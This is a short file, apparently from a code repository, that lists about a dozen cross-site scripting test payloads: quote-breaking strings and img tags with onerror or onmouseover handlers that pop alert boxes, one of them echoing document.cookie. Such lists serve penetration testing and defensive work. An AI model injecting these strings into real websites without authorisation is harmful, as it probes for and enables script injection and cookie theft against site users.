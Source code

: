 # xss-payloads
'; alert(documment.cookie);//
XSS1"<img/src=x onmouseover=alert(/XSS1test/)//
XSS2"<img src=x onmouseover=alert('XSS1test')//
XSS3"<img src=x onmouseover=alert("XSS1test")//
test'-alert('XSS2test')-'xss
test'-alert(/XSS2test/)-'xss
test'/alert(/XSS2test/)/'xss
test"><img/src=x onerror=alert(XSS3test)>'
test"><img/src=x onerror=alert('XSS3test')>'
test"><img src=x onmouseover=alert('XSS3test')>'
<img src=x onmouseover=alert('XSS3test')>'
<img/src=x onmouseover=alert(1234)>'
